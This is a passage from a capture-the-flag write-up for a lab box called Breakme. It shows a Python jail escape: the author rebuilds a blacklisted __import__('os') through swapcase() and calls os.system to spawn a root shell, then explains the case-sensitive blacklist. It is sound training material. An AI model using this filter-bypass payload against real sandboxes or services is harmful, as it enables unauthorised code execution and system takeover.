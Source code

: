 <p>Going through this list, I found that "__import__" is available. However, the keyword seems to be blacklisted. Furthermore, the "os" keyword also seems to be blacklisted:</p>
<pre>
>> __import__
Illegal Input
>> os
Illegal Input
</pre>
<p>To bypass it, I tried the following without succes:</p>
<pre>
 __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower())
</pre>
<p>It seems that the lower() keyword is also blaclisted. Apparently, there is another function "swapcase()" which achieves the same. Maybe this one is not blacklisted?</p>
<pre>
>> __builtins__.__dict__['__IMPORT__'.swapcase()]('OS'.swapcase())
>> 
</pre>
<p>No error was thrown indicating we have succesfully imported the "os" module!. Let's now get a shell as root:</p>
<pre>
>> __builtins__.__dict__['__IMPORT__'.swapcase()]('OS'.swapcase()).__dict__['SYSTEM'.swapcase()]('/BIN/SH'.swapcase())
# whoami
root
root@Breakme:~# ls -al
total 52
drwx------  3 root root 4096 Mar 21  2024 .
drwxr-xr-x 18 root root 4096 Aug 17  2021 ..
lrwxrwxrwx  1 root root    9 Aug  3  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
-rwx------  1 root root 5438 Jul 31  2023 index.php
-rw-r--r--  1 root root 5000 Mar 21  2024 jail.py
-rw-r--r--  1 root root    0 Mar 21  2024 .jail.py.swp
-rw-------  1 root root   33 Aug  3  2023 .lesshst
drwxr-xr-x  3 root root 4096 Aug 17  2021 .local
-rw-------  1 root root 7575 Feb  4  2024 .mysql_history
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-------  1 root root   33 Aug  3  2023 .root.txt
</pre>
<p>How did this escape work? First of all, we looked at the builtins. These are always available functions. If you know Java you can compare it to typing "System.out.print("Hello")". You did not import "System", it is already there because Java imports some core classes from java.lang automatically. Thus, viewing the builtins revealed that "__import__" was available. However, it seems it was also blaclisted meaning we had to come up with a bypass. Apparently, the filter was kinda dumb as it only blacklisted the lowercase strings. To explain how the .lower() and .swapcase() trick works, here’s some simplified Python code:" </p>
<pre>
bad = ["import", "open", "exec"]
